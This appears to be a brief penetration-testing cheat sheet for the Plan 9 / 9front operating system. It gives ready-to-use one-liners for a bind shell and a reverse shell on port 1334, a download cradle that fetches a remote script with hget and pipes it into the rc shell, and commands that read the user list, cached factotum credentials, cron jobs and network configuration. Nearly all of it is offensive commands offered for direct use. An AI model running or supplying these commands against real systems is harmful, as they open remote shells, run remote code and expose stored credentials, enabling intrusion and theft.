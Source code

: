 **Bind Shell**<br />
`aux/listen1 -t tcp!*!1334 /bin/rc`<br />
`nc 192.168.9.3 1334`

**Reverse Shell**<br />
``srv -q tcp!192.168.1.222!1334 reverse_shell; while (i=`{read -n 1 /srv/reverse_shell}) { echo $i | rc >> /srv/reverse_shell }; rm /srv/reverse_shell``<br />
`nc -nlvp 1334`

**Download Cradles**<br />
`webfs; hget http://9front.lan/hello.rc | rc`

**Users / Groups list**<br />
`cat /adm/users`

**Cached User keys**<br />
`cat /mnt/factotum/ctl`

**Crons**<br />
`ls -l /cron/*/cron`

**Network Settings**<br />
`cat /net/ndb`

**Other UNIX Commands to Plan 9 Translation:**<br />
https://9p.io/wiki/plan9/Unix_to_Plan_9_command_translation/index.html
